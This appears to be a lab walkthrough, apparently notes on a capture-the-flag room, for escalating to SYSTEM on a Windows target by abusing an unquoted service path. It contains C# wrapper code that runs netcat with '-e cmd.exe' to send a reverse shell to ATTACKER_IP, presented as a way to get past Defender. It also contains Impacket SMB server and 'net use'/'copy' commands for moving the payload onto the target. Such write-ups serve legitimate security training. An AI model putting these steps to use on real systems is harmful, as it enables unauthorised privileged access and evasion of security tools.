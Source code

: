 Let's recap what we found in the previous task:

- We have a privilege which we could almost certainly use to escalate to system permissions. The downside is that we'd need to obfuscate the exploits in order to get them past Defender.
- We have an unquoted service path vulnerability for a service running as the system account. This is ideal.

We have everything we need to root this box. Let's do this!

Of the two vulnerabilities that are immediately available, we will work through the *unquoted service path attack* for one simple reason: getting a reverse shell back from this is _very_ easy -- even with Defender in play. 

The exploits available to manipulate the privilege we found would need to be custom compiled and obfuscated in order to be useful to us; however, with the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target._ To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system). Ideally we would write a full C# service file that would integrate seamlessly with the Windows service management system. 

Whilst this is perfectly possible (and is by far the preferable option), for the sake of simplicity, we will stick to just creating a standalone executable. It's worth noting that this technique is effective at bypassing the antivirus software on the target; however, *in an enterprise situation there is a good chance that it would be picked up by an intrusion detection system*. In this scenario we would be looking for a more sophisticated (if similar) solution.

Ideally we'd be using Visual Studio here. If you happen to have a Windows host and are familiar with Visual Studio then please feel free to use it for. As not everyone has access to a Windows machine (or is comfortable installing Windows as a virtual machine), the teaching content will work with the `mono` dotnet core compiler for Linux. This can be easily installed on Kali and will allow us to compile C# executables that can be run on Windows targets. The same code will work just fine if compiled in Visual Studio, however.

---
## Install mono

First we need to install Mono. This can be done with:  

```
sudo apt update
sudo apt install mono-devel -y
```


If you are using the AttackBox then this should already be installed.  

## Create Wrapper.cs

Now, open a file called `Wrapper.cs` in your favorite text editor.

The first thing we need to do is add our "imports". These allow us to use pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the file, add the following lines:  

```
using System;
using System.Diagnostics;  
```
 

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:  

```
namespace Wrapper{       
	class Program{           
		static void Main(){
			//Our code will go here!
		}
	}
}
```

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:  

```
Process proc = new Process();   
ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");
```

_Make sure to replace the_ `nc-USERNAME.exe` _with the name of your own netcat executable, as well as slotting in your own IP and Port!_

With the objects created, we can now configure the process to not create it's own GUI Window when starting:  
`procInfo.CreateNoWindow = true;`  

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!  
`proc.StartInfo = procInfo;   proc.Start();`  

Our program is now complete. It should look something like this:

![[1680d2c86ef0.png]]

## Compile

We can now compile our program using the Mono `mcs` compiler. This is extremely simple using the package we installed earlier:

```
mcs Wrapper.cs
```

![[f051e39d81f6.png]]

Write and compile a wrapper program using Mono or Visual Studio.

## Transfer Wrapper.exe

Transfer the `Wrapper.exe`   file to the target. Just to spice things up a bit, let's use an Impacket SMB server, rather than our usual HTTP server. If you would prefer to use the HTTP server and cURL (or another method to transfer the file) you are welcome to do so.


---

## Impacket

Impacket is a Python library that makes it very easy to interact with a wide variety of Windows services from Linux.  

First up, let's download the package:  
`sudo git clone https://github.com/SecureAuthCorp/impacket /opt/impacket && cd /opt/impacket && sudo pip3 install .   `

> [!Note]
>On the AttackBox Impacket is preinstalled at `/opt/impacket/impacket`

We can now start up a temporary SMB server:  
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`

![[99f9b77f1bf0.png]]

With this command we created a server on our IP, serving a share called "share" in the current directory. As Impacket uses SMBv1 by default, we need to specify that is use SMBv2 in order for the relatively up-to-date target to accept it. We then set a username and password for connections to the server -- again, this is due to security policies on the target requiring connections to be authenticated.

Now, in our #Reverse_Shell , we can use this command to authenticate: 

`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword`

![[9a27791867af.png]]

This authenticates with the server using the credentials we set (`user:s3cureP@ssword`). We can now copy our compiled  `Wrapper.exe` program up to the target. Due to file permissions on the normal `C:\Windows\Temp` directory, we are doing this from our current user's own `%TEMP%` directory:  

`copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe`

![[857c1d682e0e.png]]

> [!Note]
>We could have just executed this directly through the share -- exactly as we did with Mimikatz when dealing with the Gitserver. We are copying it here purely because we will need to have a copy on the target sooner or later anyway.

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

That said, to prevent errors down the line, we should disconnect from it for the time being: 

`net use \\ATTACKER_IP\share /del`

![[060e1ee4ce7c.png]]

